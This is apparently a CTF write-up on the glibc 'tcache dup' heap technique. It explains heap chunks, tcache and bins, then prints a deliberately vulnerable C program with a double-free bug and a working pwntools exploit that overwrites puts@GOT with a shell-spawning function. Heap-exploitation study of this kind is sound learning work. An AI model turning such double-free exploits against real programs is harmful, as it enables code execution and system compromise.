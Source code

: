 ```yaml
---
title: "Heap Tcachedup"
tags:
  - Pwn
  - CTF
  - heap
---
```


## 1. Chunks: The Basic Building Blocks

```md
Allocated Chunk:       Free Chunk:
+--------------+      +--------------+
| size + flags |      | size + flags |
+--------------+      +--------------+
|  user data   |      |     fd       |
+--------------+      +--------------+
```
- Size indicates chunk length  
- Flags track whether neighbors are in use  
- Freed chunks store pointers in user data  

## Tcache (Thread Cache)
`tcache_bins[0x20]: A->B->C->NULL`

The fast-food drive-thru of heap memory:

- First place malloc checks
- Max 7 chunks per size
- Limited to small sizes
- Fastest allocation method

## BINS 

```md
fast bins:  Quick access (like tcache)
small bins: Fixed sizes
large bins: Variable sizes
```

Different waiting lines for chunks:

- Each handles different sizes
- Organized by size class
- More complex but more robust than tcache

## TOP CHUNK 

```
+-------------+
|other chunks |
+-------------+
| TOP CHUNK   | <- grows/shrinks as needed
+-------------+
```

Like a bank's reserve money:

- Last chunk in heap
- Used when no other chunks available
- Can grow to satisfy large requests

## FD  (Forward Pointer)

`free_chunk->fd = next_free
A->B->NULL`

The chain that links free chunks:

- Points to next free chunk of same size
- NULL marks end of chain
- Critical for managing free lists

## CHUNK FLAGS

`P (0x1): Previous in use`
`M (0x2): Is Mmap'd`
`N (0x4): Non-main arena`

Status tags on chunks:

- Stored in last 3 bits of size
- Help manage chunk states
- Critical for coalescing

## MALLOC FLOW 

```md
check tcache -> check bins -> use top chunk
     ↓            ↓              ↓
  fastest      medium         slowest
```

# Problem Code 

```c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>#include <stdlib.h>#include <signal.h>#include <unistd.h>char *ptr[10];void alarm_handler() {
    exit(-1);
}void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}int create(int cnt) {
    int size;if(cnt > 10) {
        return -1;
    }
    printf("Size: ");
    scanf("%d", &size);
    ptr[cnt] = malloc(size);if(!ptr[cnt]) {
        return -1;
    }printf("Data: ");
    read(0, ptr[cnt], size);
}int delete() {
    int idx;printf("idx: ");
    scanf("%d", &idx);if(idx > 10) {
        return -1;
    }free(ptr[idx]);
}void get_shell() {
    system("/bin/sh");
}int main() {
    int idx;
    int cnt = 0;initialize();while(1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);switch(idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }return 0;
}
```

- You can allocate chunks of any size you want through 1.
- You can free a chunk through step 2, but the Double Free Bug occurs because the chunk is not initialized after being freed.

```
1. INITIAL STATE (After allocating two chunks of size 0x20)

ptr array
[0]         [1]      [2]...
 |           | 
 v           v

+------------+ +------------+ +------------+
| size=0x21  | | size=0x21  | | TOP CHUNK |
+------------+ +------------+ +------------+
|   "AAAA"   | |   "BBBB"   | |           |
+------------+ +------------+ +------------+
 Chunk 0       Chunk 1
 0x602250      0x602260      0x602270


2. AFTER FIRST TWO FREES (Normal state)
======================================
ptr array
[0]         [1]      [2]...
 |           | 
 v           v

+------------+ +------------+ +------------+
| size=0x21  | | size=0x21  | | TOP CHUNK |
+------------+ +------------+ +------------+
|    fd      | |    fd      | |           |
|    → 0     | |    →       | |           |
+------------+ +------------+ +------------+
 Chunk 0       Chunk 1
 0x602250      0x602260      0x602270
 (freed)       (freed)


3. AFTER DOUBLE FREE (Corrupted state)
====================================
ptr array
[0]         [1]      [2]...
 |           | 
 v           v

+------------+ +------------+ +------------+
| size=0x21  | | size=0x21  | | TOP CHUNK |
+------------+ +------------+ +------------+
|    fd      | |    fd      | |           |
|  →─────────| | ←───────── | |           |
+------------+ +------------+ +------------+
 Chunk 0       Chunk 1
 0x602250      0x602260      0x602270
 (freed twice) (freed)

tcache_bins[0x20]: 0x602260 <-> 0x602260 (circular link)      

tcache_bins[0x20]:
0x602260 ←→ 0x602260 (circular link!)
``` 
## EXPLOIT CODE 
```python
from pwn import *
p = process('./tcache_dup')
e = ELF("./tcache_dup")
libc = ELF("./libc-2.27.so", checksec=False)
get_shell = e.symbols['get_shell']
puts_got = e.got['puts']def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))def create(size, data):
    p.sendlineafter("> ", "1")
    p.sendlineafter("Size: ", str(size))
    p.sendafter("Data: ", data)def delete(idx):
    p.sendlineafter("> ", "2")
    p.sendlineafter("idx: ", str(idx))# Double Free
create(0x10, "zwxbj")
delete(0)
delete(0) # Overwrite puts@got -> get_shell
create(0x10, p64(puts_got))
create(0x10, 'A'*8)
create(0x10, p64(get_shell))
p.interactive()
```

- We allocate a single chunk (index 0).
- Free it twice, creating a circular pointer in tcache.
- We then allocate new chunks that manipulate the tcache list to overwrite `puts@GOT` with `get_shell`, gaining a shell.